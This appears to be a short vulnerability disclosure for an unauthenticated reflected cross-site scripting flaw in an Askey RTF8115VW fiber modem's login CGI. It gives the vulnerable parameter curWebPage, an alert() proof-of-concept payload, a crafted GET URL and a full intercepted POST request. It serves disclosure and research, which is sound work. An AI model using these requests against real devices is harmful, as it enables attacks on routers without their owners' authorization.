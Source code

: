**UNAUTHENTICATED Cross-Site Scripting - Askey Internet Fiber Modem**

Vendor: **Askey**   
Software Version: **BR_SV_g11.11_RTF_TEF001_V6.54_V014**  
Model: **RTF8115VW**   
Vulnerable Param: **curWebPage**  
Payload: ```";alert('xss')//```   
Not tested in other model/version.   

Via GET REQUEST
```
At the login request we can issue a GET Request:
http://x.x.x.x/cgi-bin/te_acceso_router.cgi?curWebPage=/settings-internet.asp";alert('xss')//&loginUsername=admin&loginPassword=admin

The Username and Password param, don't need to be valid.
``` 

![Alt text](/xssget.jpg?raw=true "Optional Title")


Via POST REQUEST
```
1) Setup your Proxy (Burp / ZAP / whatever) to intercept the Login request
2) Input the payload after the .asp page used by the curWebPage param
3) Forward the Request
```

The Final Request
```
POST /cgi-bin/te_acceso_router.cgi HTTP/1.1
Host: x.x.x.x
Origin: http://x.x.x.x
Cookie: _httpdSessionId_=ece9eb5b733f7cbc8198ce9b6ab995c2
Upgrade-Insecure-Requests: 1
Referer: http://x.x.x.x/login.asp
Content-Type: application/x-www-form-urlencoded
Accept: */*
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Connection: close
Cache-Control: max-age=0
Accept-Encoding: gzip, deflate
Content-Length: 35

curWebPage=%2Fsettings-firewall.asp+payload
 <!---curWebPage=%2Fsettings-firewall.asp";alert('xss')//--->
```

``` 
